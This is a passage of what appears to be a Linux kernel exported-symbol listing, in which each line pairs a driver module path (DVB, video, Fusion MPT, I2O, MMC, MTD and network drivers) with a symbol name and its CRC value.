    drivers/media/dvb/dvb-usb/dvb-usb-dibusb-common dibusb_dib3000mc_frontend_attach 0xf5cbc91c
    drivers/media/dvb/dvb-usb/dvb-usb-dibusb-common dibusb_dib3000mc_tuner_attach 0xdf349fc4
    drivers/media/dvb/dvb-usb/dvb-usb-dibusb-common dibusb_i2c_algo 0x92098e97
    drivers/media/dvb/dvb-usb/dvb-usb-dibusb-common dibusb_pid_filter 0xd57f942c
    drivers/media/dvb/dvb-usb/dvb-usb-dibusb-common dibusb_pid_filter_ctrl 0x7833da8e
    drivers/media/dvb/dvb-usb/dvb-usb-dibusb-common dibusb_power_ctrl 0x9d531f36
    drivers/media/dvb/dvb-usb/dvb-usb-dibusb-common dibusb_rc_keys 0xd4d3dddc
    drivers/media/dvb/dvb-usb/dvb-usb-dibusb-common dibusb_rc_query 0x030e70d3
    drivers/media/dvb/dvb-usb/dvb-usb-dibusb-common dibusb_read_eeprom_byte 0xd9a1fb05
    drivers/media/dvb/dvb-usb/dvb-usb-dibusb-common dibusb_streaming_ctrl 0x4071ca9a
    drivers/media/dvb/frontends/at76c651 at76c651_attach 0xcc47905b
    drivers/media/dvb/frontends/bcm3510 bcm3510_attach 0xdb2a67ee
    drivers/media/dvb/frontends/cx22700 cx22700_attach 0xe713c719
    drivers/media/dvb/frontends/cx22702 cx22702_attach 0xf9c98b25
    drivers/media/dvb/frontends/cx24110 cx24110_attach 0x05ab16a8
    drivers/media/dvb/frontends/cx24110 cx24110_pll_write 0x6d1fae70
    drivers/media/dvb/frontends/dib3000-common dib3000_read_reg 0xf3104d58
    drivers/media/dvb/frontends/dib3000-common dib3000_search_status 0xe762d459
    drivers/media/dvb/frontends/dib3000-common dib3000_seq 0x05f13eee
    drivers/media/dvb/frontends/dib3000-common dib3000_write_reg 0xe1bef5b3
    drivers/media/dvb/frontends/dib3000mb dib3000mb_attach 0x9328542e
    drivers/media/dvb/frontends/dib3000mc dib3000mc_attach 0xed87974e
    drivers/media/dvb/frontends/dvb-pll dvb_pll_configure 0x02689b7f
    drivers/media/dvb/frontends/dvb-pll dvb_pll_env57h1xd5 0x5b259391
    drivers/media/dvb/frontends/dvb-pll dvb_pll_fmd1216me 0x7a0ed9bb
    drivers/media/dvb/frontends/dvb-pll dvb_pll_lg_z201 0xbf98157e
    drivers/media/dvb/frontends/dvb-pll dvb_pll_microtune_4042 0xd15aca20
    drivers/media/dvb/frontends/dvb-pll dvb_pll_tbmv30111in 0xfdd5e650
    drivers/media/dvb/frontends/dvb-pll dvb_pll_tda665x 0x2a4f5718
    drivers/media/dvb/frontends/dvb-pll dvb_pll_tded4 0xc95be182
    drivers/media/dvb/frontends/dvb-pll dvb_pll_tdhu2 0x708f579e
    drivers/media/dvb/frontends/dvb-pll dvb_pll_tdvs_tua6034 0xe39c77c8
    drivers/media/dvb/frontends/dvb-pll dvb_pll_thomson_dtt7579 0x12284643
    drivers/media/dvb/frontends/dvb-pll dvb_pll_thomson_dtt759x 0xf1d4150d
    drivers/media/dvb/frontends/dvb-pll dvb_pll_thomson_dtt7610 0xd5d22e56
    drivers/media/dvb/frontends/dvb-pll dvb_pll_thomson_dtt7611 0xccc91f17
    drivers/media/dvb/frontends/dvb-pll dvb_pll_tua6010xs 0xaddc7276
    drivers/media/dvb/frontends/dvb-pll dvb_pll_tua6034 0x96cce305
    drivers/media/dvb/frontends/dvb-pll dvb_pll_tuv1236d 0xcbbd68de
    drivers/media/dvb/frontends/dvb-pll dvb_pll_unknown_1 0x13856c44
    drivers/media/dvb/frontends/l64781 l64781_attach 0xb3c0e98b
    drivers/media/dvb/frontends/lgdt330x lgdt330x_attach 0xeb922acc
    drivers/media/dvb/frontends/mt312 mt312_attach 0x72259463
    drivers/media/dvb/frontends/mt312 vp310_attach 0xb1cc5c0f
    drivers/media/dvb/frontends/mt352 mt352_attach 0x422441e4
    drivers/media/dvb/frontends/mt352 mt352_write 0x97872f57
    drivers/media/dvb/frontends/nxt2002 nxt2002_attach 0xf4a75488
    drivers/media/dvb/frontends/nxt200x nxt200x_attach 0x6a3753d5
    drivers/media/dvb/frontends/nxt6000 nxt6000_attach 0x1215af8a
    drivers/media/dvb/frontends/or51132 or51132_attach 0xafedc4c4
    drivers/media/dvb/frontends/or51211 or51211_attach 0xe6006009
    drivers/media/dvb/frontends/s5h1420 s5h1420_attach 0xd7fd78ba
    drivers/media/dvb/frontends/sp8870 sp8870_attach 0x9795c8ea
    drivers/media/dvb/frontends/sp887x sp887x_attach 0x307d89fc
    drivers/media/dvb/frontends/stv0297 stv0297_attach 0x963ab796
    drivers/media/dvb/frontends/stv0297 stv0297_enable_plli2c 0x97b508b8
    drivers/media/dvb/frontends/stv0299 stv0299_attach 0xdeb76410
    drivers/media/dvb/frontends/stv0299 stv0299_writereg 0x5ba9dd43
    drivers/media/dvb/frontends/tda10021 tda10021_attach 0x2c22dc3d
    drivers/media/dvb/frontends/tda1004x tda10045_attach 0xc00d29f2
    drivers/media/dvb/frontends/tda1004x tda10046_attach 0x86ff9976
    drivers/media/dvb/frontends/tda1004x tda1004x_write_byte 0xd33cb7ea
    drivers/media/dvb/frontends/tda8083 tda8083_attach 0x10c97d30
    drivers/media/dvb/frontends/tda80xx tda80xx_attach 0x5d4558ef
    drivers/media/dvb/frontends/ves1820 ves1820_attach 0xa592ec3d
    drivers/media/dvb/frontends/ves1x93 ves1x93_attach 0x40c763d1
    drivers/media/dvb/ttpci/budget-core budget_debug 0x7948c222
    drivers/media/dvb/ttpci/budget-core ttpci_budget_debiread 0xf4eda20d
    drivers/media/dvb/ttpci/budget-core ttpci_budget_debiwrite 0xe1ed07c2
    drivers/media/dvb/ttpci/budget-core ttpci_budget_deinit 0x0f90bf79
    drivers/media/dvb/ttpci/budget-core ttpci_budget_init 0x6c8826a5
    drivers/media/dvb/ttpci/budget-core ttpci_budget_irq10_handler 0x9d670d49
    drivers/media/dvb/ttpci/budget-core ttpci_budget_set_video_port 0x8c584776
    drivers/media/dvb/ttpci/ttpci-eeprom ttpci_eeprom_parse_mac 0x42c77d8c
    drivers/media/dvb/ttusb-dec/ttusbdecfe ttusbdecfe_dvbs_attach 0x9d36ee80
    drivers/media/dvb/ttusb-dec/ttusbdecfe ttusbdecfe_dvbt_attach 0xb6f1ef4a
    drivers/media/radio/miropcm20 aci_rds_cmd 0xde4156ce
    drivers/media/video/btcx-risc btcx_align 0xc368f8e6
    drivers/media/video/btcx-risc btcx_calc_skips 0x6200c4c9
    drivers/media/video/btcx-risc btcx_riscmem_alloc 0xe8f58218
    drivers/media/video/btcx-risc btcx_riscmem_free 0xf26de122
    drivers/media/video/btcx-risc btcx_screen_clips 0xcda0ded2
    drivers/media/video/btcx-risc btcx_sort_clips 0xad2fe38b
    drivers/media/video/bttv bttv_get_cardinfo 0xeecd5cab
    drivers/media/video/bttv bttv_get_gpio_queue 0x0e0f3e97
    drivers/media/video/bttv bttv_get_id 0x294b5550
    drivers/media/video/bttv bttv_get_pcidev 0xe90b73b2
    drivers/media/video/bttv bttv_gpio_bits 0x0fca0631
    drivers/media/video/bttv bttv_gpio_enable 0x11dc4b6d
    drivers/media/video/bttv bttv_gpio_inout 0x74df87f5
    drivers/media/video/bttv bttv_gpio_read 0xc79e161d
    drivers/media/video/bttv bttv_gpio_write 0x86e47dc7
    drivers/media/video/bttv bttv_i2c_call 0xcf73f281
    drivers/media/video/bttv bttv_read_gpio 0xbcf2d2fb
    drivers/media/video/bttv bttv_sub_bus_type 0xbbcb46c3
    drivers/media/video/bttv bttv_sub_register 0x114c1c07
    drivers/media/video/bttv bttv_sub_unregister 0x55d0b746
    drivers/media/video/bttv bttv_write_gpio 0x8ecf4acc
    drivers/media/video/cpia cpia_register_camera 0x69b653ec
    drivers/media/video/cpia cpia_unregister_camera 0x9c77c581
    drivers/media/video/cx88/cx88-blackbird blackbird_set_dnr_params 0xbbcbcbf3
    drivers/media/video/cx88/cx88-blackbird blackbird_set_params 0x4e8453f1
    drivers/media/video/cx88/cx88-blackbird cx88_ioctl_hook 0xecfbb199
    drivers/media/video/cx88/cx88-blackbird cx88_ioctl_translator 0x7ad45e7e
    drivers/media/video/cx88/cx8800 cx88_do_ioctl 0x21705921
    drivers/media/video/cx88/cx8802 cx8802_buf_prepare 0x178761c2
    drivers/media/video/cx88/cx8802 cx8802_buf_queue 0x4d54a758
    drivers/media/video/cx88/cx8802 cx8802_cancel_buffers 0x0ad500af
    drivers/media/video/cx88/cx8802 cx8802_fini_common 0x9e76ea60
    drivers/media/video/cx88/cx8802 cx8802_init_common 0xa714f9fd
    drivers/media/video/cx88/cx8802 cx8802_resume_common 0x7b52fedb
    drivers/media/video/cx88/cx8802 cx8802_suspend_common 0xb9513d2d
    drivers/media/video/cx88/cx88xx cx88_audio_thread 0x904b8696
    drivers/media/video/cx88/cx88xx cx88_bcount 0x60837b45
    drivers/media/video/cx88/cx88xx cx88_boards 0x4e6954bf
    drivers/media/video/cx88/cx88xx cx88_call_i2c_clients 0x11c349b5
    drivers/media/video/cx88/cx88xx cx88_card_list 0x489b75c1
    drivers/media/video/cx88/cx88xx cx88_card_setup 0xb1c809ea
    drivers/media/video/cx88/cx88xx cx88_core_get 0xed1328a8
    drivers/media/video/cx88/cx88xx cx88_core_irq 0x4c918c0e
    drivers/media/video/cx88/cx88xx cx88_core_put 0xd4af9729
    drivers/media/video/cx88/cx88xx cx88_free_buffer 0x404c6795
    drivers/media/video/cx88/cx88xx cx88_get_stereo 0xbfc2eb9d
    drivers/media/video/cx88/cx88xx cx88_i2c_init 0x8ab83505
    drivers/media/video/cx88/cx88xx cx88_idcount 0x629bfac9
    drivers/media/video/cx88/cx88xx cx88_newstation 0xc4f0e82f
    drivers/media/video/cx88/cx88xx cx88_print_ioctl 0xc6998191
    drivers/media/video/cx88/cx88xx cx88_print_irqbits 0x777b6d7f
    drivers/media/video/cx88/cx88xx cx88_reset 0xcbb564c3
    drivers/media/video/cx88/cx88xx cx88_risc_buffer 0xb7e28314
    drivers/media/video/cx88/cx88xx cx88_risc_databuffer 0x09d9de4b
    drivers/media/video/cx88/cx88xx cx88_risc_stopper 0xafeb180f
    drivers/media/video/cx88/cx88xx cx88_set_scale 0xdbb2ff40
    drivers/media/video/cx88/cx88xx cx88_set_stereo 0x7f8edf8b
    drivers/media/video/cx88/cx88xx cx88_set_tvaudio 0x71830595
    drivers/media/video/cx88/cx88xx cx88_set_tvnorm 0x43f77a39
    drivers/media/video/cx88/cx88xx cx88_shutdown 0xc0330d70
    drivers/media/video/cx88/cx88xx cx88_sram_channel_dump 0x03b40cdd
    drivers/media/video/cx88/cx88xx cx88_sram_channel_setup 0xe45f14c1
    drivers/media/video/cx88/cx88xx cx88_sram_channels 0x9b140fff
    drivers/media/video/cx88/cx88xx cx88_start_audio_dma 0x0bef30e9
    drivers/media/video/cx88/cx88xx cx88_stop_audio_dma 0xd19dcf3a
    drivers/media/video/cx88/cx88xx cx88_subids 0x6b626846
    drivers/media/video/cx88/cx88xx cx88_vdev_init 0x5e16ba46
    drivers/media/video/cx88/cx88xx cx88_wakeup 0xe6aaad5d
    drivers/media/video/em28xx/em28xx em28xx_bcount 0xcd6db381
    drivers/media/video/em28xx/em28xx em28xx_boards 0x3ab9f5de
    drivers/media/video/em28xx/em28xx em28xx_id_table 0xe6a1a0e4
    drivers/media/video/ir-kbd-i2c get_key_pinnacle 0x3148f24e
    drivers/media/video/saa7134/saa7134 dmasound_exit 0x4d701b44
    drivers/media/video/saa7134/saa7134 dmasound_init 0xf03b1b94
    drivers/media/video/saa7134/saa7134 saa7134_boards 0x5d19925f
    drivers/media/video/saa7134/saa7134 saa7134_common_ioctl 0x5338b4ef
    drivers/media/video/saa7134/saa7134 saa7134_devlist 0x1211df5d
    drivers/media/video/saa7134/saa7134 saa7134_i2c_call_clients 0x474c43fe
    drivers/media/video/saa7134/saa7134 saa7134_pgtable_alloc 0xfa78e7a8
    drivers/media/video/saa7134/saa7134 saa7134_pgtable_build 0x40e7a433
    drivers/media/video/saa7134/saa7134 saa7134_pgtable_free 0xd42f1e01
    drivers/media/video/saa7134/saa7134 saa7134_print_ioctl 0x1fd65780
    drivers/media/video/saa7134/saa7134 saa7134_set_dmabits 0x013e2fe9
    drivers/media/video/saa7134/saa7134 saa7134_ts_qops 0xcb2d5b61
    drivers/media/video/saa7134/saa7134 saa7134_ts_register 0x0794b918
    drivers/media/video/saa7134/saa7134 saa7134_ts_unregister 0x280c1c26
    drivers/media/video/saa7134/saa7134 saa_dsp_writel 0xe7796c7e
    drivers/media/video/tveeprom tveeprom_hauppauge_analog 0x7c225b15
    drivers/media/video/tveeprom tveeprom_read 0x76d01f13
    drivers/media/video/v4l1-compat v4l_compat_translate_ioctl 0xd832c48c
    drivers/media/video/v4l2-common v4l2_field_names 0xa021ef50
    drivers/media/video/v4l2-common v4l2_ioctl_names 0x1cfb1467
    drivers/media/video/v4l2-common v4l2_prio_change 0x9c7de443
    drivers/media/video/v4l2-common v4l2_prio_check 0x2f639468
    drivers/media/video/v4l2-common v4l2_prio_close 0x95284709
    drivers/media/video/v4l2-common v4l2_prio_init 0xbecd2858
    drivers/media/video/v4l2-common v4l2_prio_max 0x1dcaa0c8
    drivers/media/video/v4l2-common v4l2_prio_open 0x76ba9a9a
    drivers/media/video/v4l2-common v4l2_type_names 0x57b02a20
    drivers/media/video/v4l2-common v4l2_video_std_construct 0x33b3b664
    drivers/media/video/video-buf videobuf_alloc 0xa9f01119
    drivers/media/video/video-buf videobuf_dma_free 0x31182eab
    drivers/media/video/video-buf videobuf_dma_init 0xa613eadf
    drivers/media/video/video-buf videobuf_dma_init_kernel 0xa0b25161
    drivers/media/video/video-buf videobuf_dma_init_overlay 0x93d7977a
    drivers/media/video/video-buf videobuf_dma_init_user 0x7b7abf57
    drivers/media/video/video-buf videobuf_dma_pci_map 0xd2ac1079
    drivers/media/video/video-buf videobuf_dma_pci_sync 0xa5f7acf0
    drivers/media/video/video-buf videobuf_dma_pci_unmap 0x476f7563
    drivers/media/video/video-buf videobuf_dqbuf 0xaa378936
    drivers/media/video/video-buf videobuf_iolock 0xf5073e03
    drivers/media/video/video-buf videobuf_mmap_free 0xf8bc236d
    drivers/media/video/video-buf videobuf_mmap_mapper 0xf4188c93
    drivers/media/video/video-buf videobuf_mmap_setup 0x01481378
    drivers/media/video/video-buf videobuf_next_field 0x0b4070e7
    drivers/media/video/video-buf videobuf_poll_stream 0x17d7dbfb
    drivers/media/video/video-buf videobuf_qbuf 0x30a64e7d
    drivers/media/video/video-buf videobuf_querybuf 0x96c81821
    drivers/media/video/video-buf videobuf_queue_cancel 0x1d5f2687
    drivers/media/video/video-buf videobuf_queue_init 0xff700d85
    drivers/media/video/video-buf videobuf_queue_is_busy 0x185d9646
    drivers/media/video/video-buf videobuf_read_one 0x736e4a4c
    drivers/media/video/video-buf videobuf_read_start 0xb249db89
    drivers/media/video/video-buf videobuf_read_stop 0xb48204ec
    drivers/media/video/video-buf videobuf_read_stream 0x4eafdbba
    drivers/media/video/video-buf videobuf_reqbufs 0x443003d2
    drivers/media/video/video-buf videobuf_status 0x698cb24a
    drivers/media/video/video-buf videobuf_streamoff 0xccaa67f9
    drivers/media/video/video-buf videobuf_streamon 0xdc63557e
    drivers/media/video/video-buf videobuf_vmalloc_to_sg 0x3403b98a
    drivers/media/video/video-buf videobuf_waiton 0xcdd80fe3
    drivers/media/video/video-buf-dvb videobuf_dvb_register 0xbba76aeb
    drivers/media/video/video-buf-dvb videobuf_dvb_unregister 0xb62a9136
    drivers/media/video/videocodec videocodec_attach 0x9165b3e7
    drivers/media/video/videocodec videocodec_detach 0x1803dde4
    drivers/media/video/videocodec videocodec_register 0x40c73ab9
    drivers/media/video/videocodec videocodec_unregister 0xec513b69
    drivers/media/video/videodev video_devdata 0x756ffebf
    drivers/media/video/videodev video_device_alloc 0xbf328e5d
    drivers/media/video/videodev video_device_release 0x2332694f
    drivers/media/video/videodev video_exclusive_open 0x050dd401
    drivers/media/video/videodev video_exclusive_release 0xba9aa625
    drivers/media/video/videodev video_register_device 0xccc04f06
    drivers/media/video/videodev video_unregister_device 0x09458e79
    drivers/media/video/videodev video_usercopy 0xd80a151a
    drivers/message/fusion/mptbase ioc_list 0xdd805159
    drivers/message/fusion/mptbase mpt_GetIocState 0x35ef568f
    drivers/message/fusion/mptbase mpt_HardResetHandler 0x211b487a
    drivers/message/fusion/mptbase mpt_add_sge 0x105d4f47
    drivers/message/fusion/mptbase mpt_alloc_fw_memory 0x3c4987f7
    drivers/message/fusion/mptbase mpt_alt_ioc_wait 0xfcc307d5
    drivers/message/fusion/mptbase mpt_attach 0x88e697c5
    drivers/message/fusion/mptbase mpt_config 0x799e7f54
    drivers/message/fusion/mptbase mpt_deregister 0x6fb5ab71
    drivers/message/fusion/mptbase mpt_detach 0x6dd750df
    drivers/message/fusion/mptbase mpt_device_driver_deregister 0x17c3bdf6
    drivers/message/fusion/mptbase mpt_device_driver_register 0x2af1dbb7
    drivers/message/fusion/mptbase mpt_event_deregister 0x73fec4bb
    drivers/message/fusion/mptbase mpt_event_register 0x9d62d906
    drivers/message/fusion/mptbase mpt_findImVolumes 0xa361b7d7
    drivers/message/fusion/mptbase mpt_free_fw_memory 0x54abe8a2
    drivers/message/fusion/mptbase mpt_free_msg_frame 0xd720f38a
    drivers/message/fusion/mptbase mpt_get_msg_frame 0x70cd3bed
    drivers/message/fusion/mptbase mpt_lan_index 0x3b4f162e
    drivers/message/fusion/mptbase mpt_print_ioc_summary 0x1cd20272
    drivers/message/fusion/mptbase mpt_proc_root_dir 0x7961ec10
    drivers/message/fusion/mptbase mpt_put_msg_frame 0x11e49447
    drivers/message/fusion/mptbase mpt_read_ioc_pg_3 0xac8d77ce
    drivers/message/fusion/mptbase mpt_register 0x92493e7d
    drivers/message/fusion/mptbase mpt_reset_deregister 0xae4fb61e
    drivers/message/fusion/mptbase mpt_reset_register 0xc689741f
    drivers/message/fusion/mptbase mpt_resume 0x9af2882d
    drivers/message/fusion/mptbase mpt_send_handshake_request 0xed6a1a8a
    drivers/message/fusion/mptbase mpt_stm_index 0x8532cc96
    drivers/message/fusion/mptbase mpt_suspend 0x0c2394f2
    drivers/message/fusion/mptbase mpt_toolbox 0xddebb693
    drivers/message/fusion/mptbase mpt_verify_adapter 0x29c4d6c2
    drivers/message/fusion/mptbase mptbase_sas_persist_operation 0xb1554c80
    drivers/message/fusion/mptscsih mptscsih_abort 0x9ec8a659
    drivers/message/fusion/mptscsih mptscsih_bios_param 0xd63a1847
    drivers/message/fusion/mptscsih mptscsih_bus_reset 0xd6b4d1a7
    drivers/message/fusion/mptscsih mptscsih_change_queue_depth 0xc168fa79
    drivers/message/fusion/mptscsih mptscsih_dev_reset 0xbee47389
    drivers/message/fusion/mptscsih mptscsih_event_process 0xdf843e4c
    drivers/message/fusion/mptscsih mptscsih_host_reset 0x7c74633c
    drivers/message/fusion/mptscsih mptscsih_info 0x0cc2ae39
    drivers/message/fusion/mptscsih mptscsih_io_done 0x0adcbfc4
    drivers/message/fusion/mptscsih mptscsih_ioc_reset 0x1f89eab9
    drivers/message/fusion/mptscsih mptscsih_proc_info 0x31b489b1
    drivers/message/fusion/mptscsih mptscsih_qcmd 0x45556523
    drivers/message/fusion/mptscsih mptscsih_remove 0x6c42f4d5
    drivers/message/fusion/mptscsih mptscsih_resume 0xe45dbd46
    drivers/message/fusion/mptscsih mptscsih_scandv_complete 0xd26570cf
    drivers/message/fusion/mptscsih mptscsih_shutdown 0x75058d38
    drivers/message/fusion/mptscsih mptscsih_slave_alloc 0xfdc005a3
    drivers/message/fusion/mptscsih mptscsih_slave_configure 0xf58d8484
    drivers/message/fusion/mptscsih mptscsih_slave_destroy 0x8ac70b83
    drivers/message/fusion/mptscsih mptscsih_suspend 0xc8087e6a
    drivers/message/fusion/mptscsih mptscsih_taskmgmt_complete 0x99ed592d
    drivers/message/fusion/mptscsih mptscsih_timer_expired 0x764ddf1a
    drivers/message/i2o/i2o_core i2o_controllers 0xb4c00dcf
    drivers/message/i2o/i2o_core i2o_device_claim 0xed959a8f
    drivers/message/i2o/i2o_core i2o_device_claim_release 0x89ce94c1
    drivers/message/i2o/i2o_core i2o_driver_notify_controller_add_all 0x95469577
    drivers/message/i2o/i2o_core i2o_driver_notify_controller_remove_all 0x7bdf359c
    drivers/message/i2o/i2o_core i2o_driver_notify_device_add_all 0x9748892c
    drivers/message/i2o/i2o_core i2o_driver_notify_device_remove_all 0xb599778b
    drivers/message/i2o/i2o_core i2o_driver_register 0xa6fdc49e
    drivers/message/i2o/i2o_core i2o_driver_unregister 0xbf12ad09
    drivers/message/i2o/i2o_core i2o_dump_message 0x2a843bef
    drivers/message/i2o/i2o_core i2o_event_register 0x2b4a4b2c
    drivers/message/i2o/i2o_core i2o_exec_lct_get 0x516b8b41
    drivers/message/i2o/i2o_core i2o_find_iop 0x7398de80
    drivers/message/i2o/i2o_core i2o_iop_find_device 0xeb2ff11d
    drivers/message/i2o/i2o_core i2o_msg_get_wait 0x353dbc6d
    drivers/message/i2o/i2o_core i2o_msg_nop 0xe30cddcd
    drivers/message/i2o/i2o_core i2o_msg_post_wait_mem 0x2981ac16
    drivers/message/i2o/i2o_core i2o_parm_field_get 0x40e275e9
    drivers/message/i2o/i2o_core i2o_parm_issue 0x7c069287
    drivers/message/i2o/i2o_core i2o_parm_table_get 0xf8df409c
    drivers/message/i2o/i2o_core i2o_status_get 0x91093ab0
    drivers/mmc/mmc_core __mmc_claim_host 0xc133f3cf
    drivers/mmc/mmc_core mmc_add_host 0xe261ca5e
    drivers/mmc/mmc_core mmc_alloc_host 0x56b64c17
    drivers/mmc/mmc_core mmc_cleanup_queue 0x33f75e2d
    drivers/mmc/mmc_core mmc_detect_change 0xab8f6a26
    drivers/mmc/mmc_core mmc_free_host 0xe7258e24
    drivers/mmc/mmc_core mmc_init_queue 0x3ac6af27
    drivers/mmc/mmc_core mmc_queue_resume 0xca6f7e11
    drivers/mmc/mmc_core mmc_queue_suspend 0x69826d73
    drivers/mmc/mmc_core mmc_register_driver 0x488da9ef
    drivers/mmc/mmc_core mmc_release_host 0x743fc1d2
    drivers/mmc/mmc_core mmc_remove_host 0xe88c1b70
    drivers/mmc/mmc_core mmc_request_done 0xf7bdf004
    drivers/mmc/mmc_core mmc_resume_host 0x89742fd3
    drivers/mmc/mmc_core mmc_start_request 0xfaa37dc7
    drivers/mmc/mmc_core mmc_suspend_host 0xc0bd9ef8
    drivers/mmc/mmc_core mmc_unregister_driver 0x89e12a71
    drivers/mmc/mmc_core mmc_wait_for_app_cmd 0xb10b1a20
    drivers/mmc/mmc_core mmc_wait_for_cmd 0x2c7e43a4
    drivers/mmc/mmc_core mmc_wait_for_req 0x20e3e6bf
    drivers/mtd/chips/cfi_util cfi_fixup 0x6feed979
    drivers/mtd/chips/cfi_util cfi_read_pri 0xc9db4997
    drivers/mtd/chips/cfi_util cfi_varsize_frob 0x407e3025
    drivers/mtd/chips/chipreg do_map_probe 0xb256178d
    drivers/mtd/chips/chipreg map_destroy 0xfd1737d4
    drivers/mtd/chips/chipreg register_mtd_chip_driver 0x333c5103
    drivers/mtd/chips/chipreg unregister_mtd_chip_driver 0x1ca403e1
    drivers/mtd/chips/gen_probe mtd_do_chip_probe 0x1948db95
    drivers/mtd/devices/docecc doc_decode_ecc 0x45937659
    drivers/mtd/maps/map_funcs simple_map_init 0x7a9b851c
    drivers/mtd/mtd_blkdevs add_mtd_blktrans_dev 0x7f93e19d
    drivers/mtd/mtd_blkdevs del_mtd_blktrans_dev 0x49122f3b
    drivers/mtd/mtd_blkdevs deregister_mtd_blktrans 0xbc52e5ba
    drivers/mtd/mtd_blkdevs register_mtd_blktrans 0xec2fcb36
    drivers/mtd/mtdconcat mtd_concat_create 0x764be149
    drivers/mtd/mtdconcat mtd_concat_destroy 0x5d056d6f
    drivers/mtd/mtdcore add_mtd_device 0xad37ea58
    drivers/mtd/mtdcore default_mtd_readv 0x6c3fca46
    drivers/mtd/mtdcore default_mtd_writev 0xde9ff74b
    drivers/mtd/mtdcore del_mtd_device 0x6fac233e
    drivers/mtd/mtdcore get_mtd_device 0xd9474626
    drivers/mtd/mtdcore mtd_table 0x5a7e5ac9
    drivers/mtd/mtdcore mtd_table_mutex 0x30e4369c
    drivers/mtd/mtdcore put_mtd_device 0x0bc87a16
    drivers/mtd/mtdcore register_mtd_user 0x7f2eb380
    drivers/mtd/mtdcore unregister_mtd_user 0x6e83e786
    drivers/mtd/mtdpart add_mtd_partitions 0x7bfc9dcb
    drivers/mtd/mtdpart del_mtd_partitions 0xa937d43f
    drivers/mtd/mtdpart deregister_mtd_parser 0x929722ae
    drivers/mtd/mtdpart mtd_erase_callback 0x46f72a67
    drivers/mtd/mtdpart parse_mtd_partitions 0x5bc6a251
    drivers/mtd/mtdpart register_mtd_parser 0x710828d9
    drivers/mtd/nand/nand nand_default_bbt 0x19c0a6f4
    drivers/mtd/nand/nand nand_release 0x752113b6
    drivers/mtd/nand/nand nand_scan 0x82f24d59
    drivers/mtd/nand/nand nand_scan_bbt 0xeb8eca6f
    drivers/mtd/nand/nand_ecc nand_calculate_ecc 0x254f230c
    drivers/mtd/nand/nand_ecc nand_correct_data 0x87406d9d
    drivers/mtd/nand/nand_ids nand_flash_ids 0x836bdb72
    drivers/mtd/nand/nand_ids nand_manuf_ids 0xa336feb7
    drivers/mtd/onenand/onenand onenand_default_bbt 0xf9f9b1d1
    drivers/mtd/onenand/onenand onenand_release 0xc2d008d6
    drivers/mtd/onenand/onenand onenand_scan 0x6e0c7653
    drivers/mtd/onenand/onenand onenand_scan_bbt 0x35a6d97b
    drivers/net/8390 NS8390_init 0x8f47ccd8
    drivers/net/8390 __alloc_ei_netdev 0x5aa17161
    drivers/net/8390 ei_close 0x8e78823a
    drivers/net/8390 ei_interrupt 0x7862f4df
    drivers/net/8390 ei_open 0xa70586ed
    drivers/net/8390 ei_poll 0x9d988bd1
    drivers/net/arcnet/arcnet alloc_arcdev 0x6ab80dfa
    drivers/net/arcnet/arcnet arc_bcast_proto 0x8e59d77b
    drivers/net/arcnet/arcnet arc_proto_default 0x8732cb3e
    drivers/net/arcnet/arcnet arc_proto_map 0x3befb883
    drivers/net/arcnet/arcnet arc_proto_null 0x4ab27c1d
    drivers/net/arcnet/arcnet arc_raw_proto 0x9cec1d11
    drivers/net/arcnet/arcnet arcnet_debug 0x6534792a
    drivers/net/arcnet/arcnet arcnet_interrupt 0x83db44fe
    drivers/net/arcnet/arcnet arcnet_unregister_proto 0x5fb56784
    drivers/net/arcnet/com20020 com20020_check 0xe34369cc
    drivers/net/arcnet/com20020 com20020_found 0xae5d8885
    drivers/net/hamradio/hdlcdrv hdlcdrv_arbitrate 0xc23f791c
    drivers/net/hamradio/hdlcdrv hdlcdrv_receiver 0x484b568d
    drivers/net/hamradio/hdlcdrv hdlcdrv_register 0x7118285c
    drivers/net/hamradio/hdlcdrv hdlcdrv_transmitter 0x4f67d66e
    drivers/net/hamradio/hdlcdrv hdlcdrv_unregister 0x48c24215
    drivers/net/irda/sir-dev irda_register_dongle 0xf190ba4e
    drivers/net/irda/sir-dev irda_unregister_dongle 0x6f708e6c
    drivers/net/irda/sir-dev sirdev_get_instance 0x270a2e82
    drivers/net/irda/sir-dev sirdev_put_instance 0x968e1b8e
    drivers/net/irda/sir-dev sirdev_raw_read 0x1f60e446
    drivers/net/irda/sir-dev sirdev_raw_write 0x4a9ff87c
    drivers/net/irda/sir-dev sirdev_receive 0x8f4e6401
    drivers/net/irda/sir-dev sirdev_set_dongle 0x6bb55411
    drivers/net/irda/sir-dev sirdev_set_dtr_rts 0xf954a792
    drivers/net/irda/sir-dev sirdev_write_complete 0x0c5c060e
    drivers/net/mii generic_mii_ioctl 0x238631ee
    drivers/net/mii mii_check_gmii_support 0x8659928f
    drivers/net/mii mii_check_link 0xf0a224e0
    drivers/net/mii mii_check_media 0x34f37d7f
    drivers/net/mii mii_ethtool_gset 0x05c7de2c
    drivers/net/mii mii_ethtool_sset 0x4f9ad8e2
    drivers/net/mii mii_link_ok 0x8d1d63f3
    drivers/net/mii mii_nway_restart 0xd3375b3b
    drivers/net/phy/libphy genphy_config_advert 0x34bd7a34
    drivers/net/phy/libphy genphy_config_aneg 0x1308937d
    drivers/net/phy/libphy genphy_read_status 0x46a6c390
    drivers/net/phy/libphy mdiobus_register 0xacf03f87
    drivers/net/phy/libphy mdiobus_unregister 0x816f1cd5
    drivers/net/phy/libphy phy_attach 0x972e474d
    drivers/net/phy/libphy phy_connect 0x8513b322
    drivers/net/phy/libphy phy_detach 0x03655dcf
    drivers/net/phy/libphy phy_disable_interrupts 0xda858eb1
    drivers/net/phy/libphy phy_disconnect 0x74a514b8
    drivers/net/phy/libphy phy_driver_register 0xdd58a049
    drivers/net/phy/libphy phy_driver_unregister 0xfc29544c
    drivers/net/phy/libphy phy_enable_interrupts 0x5cd0ce86
    drivers/net/phy/libphy phy_print_status 0x8a230134
    drivers/net/phy/libphy phy_read 0xcd2958d1
    drivers/net/phy/libphy phy_sanitize_settings 0xd077a17b
    drivers/net/phy/libphy phy_start 0x4e6b8c7d
    drivers/net/phy/libphy phy_start_aneg 0xd6a2c7ee
    drivers/net/phy/libphy phy_start_interrupts 0xd6939806
    drivers/net/phy/libphy phy_stop 0x98db1f08
    drivers/net/phy/libphy phy_stop_interrupts 0x4bd4e84b
    drivers/net/phy/libphy phy_write 0x317ef8e7
    drivers/net/ppp_generic ppp_channel_index 0x5e1ddc13
    drivers/net/ppp_generic ppp_input 0x5f711023
    drivers/net/ppp_generic ppp_input_error 0xccccc07d
    drivers/net/ppp_generic ppp_output_wakeup 0x1da29bdd
